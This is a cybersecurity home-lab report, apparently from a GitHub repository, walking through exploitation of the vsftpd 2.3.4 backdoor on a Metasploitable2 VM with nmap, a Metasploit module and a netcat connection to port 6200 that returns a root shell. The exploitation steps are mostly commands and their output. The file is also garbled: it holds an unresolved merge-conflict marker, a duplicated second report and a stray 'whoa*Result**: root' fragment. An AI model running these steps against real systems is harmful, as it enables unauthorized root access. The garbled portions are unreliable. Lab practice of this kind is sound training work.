 # 📊 Cybersecurity Home Lab - Report Template

## Lab Title: Exploiting FTP Backdoor Vulnerability (vsftpd 2.3.4)

### 🎯 Objective

Demonstrate identification and exploitation of a known FTP vulnerability (vsftpd 2.3.4) to achieve unauthorized remote shell access.

---

### 📍 Lab Environment

| Component        | Configuration                            |
| ---------------- | ---------------------------------------- |
| Attacker Machine | Kali Linux (VirtualBox, 2 CPUs, 4GB RAM) |
| Target Machine   | Metasploitable2 (Host-only Network)      |
| Network Setup    | Host-only Adapter + NAT for Kali         |

---

### 🔎 Vulnerability Details

| Property       | Value                                              |
| -------------- | -------------------------------------------------- |
| Service        | FTP                                                |
| Version        | vsftpd 2.3.4                                       |
| Port           | 21                                                 |
| CVE            | N/A (backdoor, not official CVE)                   |
| Exploit Module | `exploit/unix/ftp/vsftpd_234_backdoor`             |
| Description    | Malicious backdoor allows root shell via port 6200 |

Reference: [Rapid7 Module](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor)

---

### 🛠️ Exploitation Steps

#### 1. Discovery - Nmap Scan

```bash
nmap -sV 192.168.56.102 -p 21
```

**Result**:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
```

#### 2. Exploit with Metasploit

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.102
set RPORT 21
run
```

**Result**:

```
[*] 192.168.56.102:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.56.102:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

#### 3. Manual Shell Access

```bash
nc 192.168.56.102 6200
whoami
```

**Result**:

```
root
```

---

### ✅ Outcome

* Successfully accessed root shell manually after exploit.
* Metasploit failed to open session but backdoor was live on port 6200.

<<<<<<< HEAD
### 📸 Screenshots

* Nmap scan result:(![Nmap_Scan](../screenshots/nmap_scan_result.png))
* Metasploit output and Netcat shell with 'root':(![metasploit_output](../screenshots/exploit_result.png))
* attacker network setup:(![attacker_net](../screenshots/attack-network-set.png))
* kali ping target :(![kali-ping](../screenshots/kali_ping_target.png))
* metasploitable network setup:(![metasploit_net](../screenshots/meta-network-set.png))

---

---


# Lab Report – vsftpd 2.3.4 Backdoor

## Target Information

* Target IP: 192.168.56.102
* OS and Services (nmap result):

whoa*Result**:
root

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
```

## Vulnerability Details

* Vulnerability name: vsftpd 2.3.4 Backdoor
* Exploit used: Metasploit module + manual netcat connection
* CVE (if known): N/A (undocumented backdoor)

## Steps Taken

1. Scanned with Nmap
2. Identified vulnerable service (FTP vsftpd 2.3.4)
3. Exploited using Metasploit and Netcat

## Results

* Shell access: Yes (via port 6200)
* Screenshot:&#x20;

## Lessons Learned

* Always verify open ports post-exploit for manual access.
* Not all Metasploit exploits result in automated sessions.
* Critical to understand service versions and exploit behavior.
